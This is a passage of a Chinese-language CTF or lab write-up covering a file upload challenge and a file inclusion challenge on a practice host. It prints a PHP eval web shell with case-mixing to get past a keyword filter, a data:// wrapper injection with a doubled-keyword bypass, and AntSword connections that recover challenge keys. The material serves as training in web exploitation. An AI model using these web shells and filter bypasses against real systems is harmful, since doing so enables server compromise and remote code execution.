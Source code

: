 ![image-20241124153232203](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124153232203.png)

发现其对文件内容有校验

发送到重放攻击器中进行数据包修改，不同的内容进行适当删减，发现其对eval关键字进行了过滤

![image-20241124153851068](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124153851068.png)

三、采用大小写绕过，

`<?php @EvAl($_POST['x']; ?>`

> **html：不区分大小写**
>
> **JavaScript：区分大小写**
>
> **PHP：函数不区分大小写，变量区分大小写**

修改文件名后缀为php，上传成功

四、访问上传文件路径，验证是否可执行命令

x=phpinfo();

五、蚁剑连接木马

![image-20241124164311856](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124164311856.png)

key2:3do7lvwf

### *34073 文件包含 (加后缀)

![image-20241124161555552](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124161555552.png)

![image-20241124161705356](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124161705356.png)

参数会自动添加后缀，

#### 方法一：data协议

`http://11.1.10.11:34073/start/index.php?page=data://text/plan,<?php phpinfo(); ?>`

![image-20241124162416170](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124162416170.png)

发现对data;//进行了过滤

对其进行双写绕过，命令执行成功

![image-20241124162649072](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124162649072.png)

执行`http://11.1.10.11:34073/start/index.php?page=dadata://ta://text/plan,<?php @eval($_POST['x']); ?>`

蚁剑连接，得到key3：5zi3nrhz

![image-20241124163635052](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124163635052.png)
